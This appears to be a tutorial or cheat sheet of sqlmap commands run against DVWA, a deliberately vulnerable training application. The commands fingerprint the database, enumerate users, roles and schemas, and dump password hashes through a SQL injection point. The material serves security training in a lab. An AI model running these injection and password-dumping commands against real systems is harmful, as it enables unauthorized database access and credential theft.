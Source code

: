 - Banner grab DBMS backend.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent -b
```

- Fingerprint the DBMS backend extensively.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent -f
```

- Enumerate current user database and check if it's DB administrator.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --current-user --is-dba 
```

- Enumerate user database accounts

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --users
```

- Dump user database passwords

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --passwords
```

- Enumerate privileges and roles.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --roles -U CU
```

- Enumerate database schema.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --schema
```

- Enumerate database schema yet exclude system databases.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --schema --exclude-sysdbs
```

- Enumerate current database.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --current-db
```
